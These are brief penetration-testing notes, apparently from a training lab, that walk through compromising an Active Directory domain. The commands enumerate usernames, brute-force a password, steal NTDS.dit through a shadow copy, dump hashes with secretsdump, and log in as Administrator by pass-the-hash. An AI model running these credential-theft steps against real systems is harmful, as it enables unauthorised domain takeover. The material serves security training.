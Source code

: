1) creating username list for GP
```shell
./username-anarchy -i /home/ltnbob/names.txt
```

2) Enumerating valid usernames with Kerbrute
```shell
./kerbrute_linux_amd64 userenum --dc 10.129.201.57 --domain inlanefreight.local names.txt
```

3) Launching a brute-force attack with NetExec
```shell
netexec smb 10.129.201.57 -u bwilliamson -p /usr/share/wordlists/fasttrack.txt
```

4) Capturing NTDS.dit
```shell
evil-winrm -i 10.129.201.57  -u bwilliamson -p 'P@55w0rd!'
```

after get shell of user we need to enumerate users' groups and history of commands

4) Capturing NTDS.dit
```shell
net user bwilliamson
```

5) Creating shadow copy of C in powershell:
```shell
vssadmin CREATE SHADOW /For=C:
```

6) Copying NTDS.dit from the VSS
```shell
cmd.exe /c copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2\Windows\NTDS\NTDS.dit c:\NTDS\NTDS.dit
```

7) Extracting hashes from NTDS.dit
```shell
impacket-secretsdump -ntds NTDS.dit -system SYSTEM LOCAL
```

### A faster method: Using NetExec to capture NTDS.dit
```shell
netexec smb 10.129.201.57 -u bwilliamson -p P@55w0rd! -M ntdsutil
```

without cracking NTLM hash login the user via PtH

```shell
evil-winrm -i 10.129.201.57 -u Administrator -H 64f12cddaa88057e06a81b54e73b949b
```



















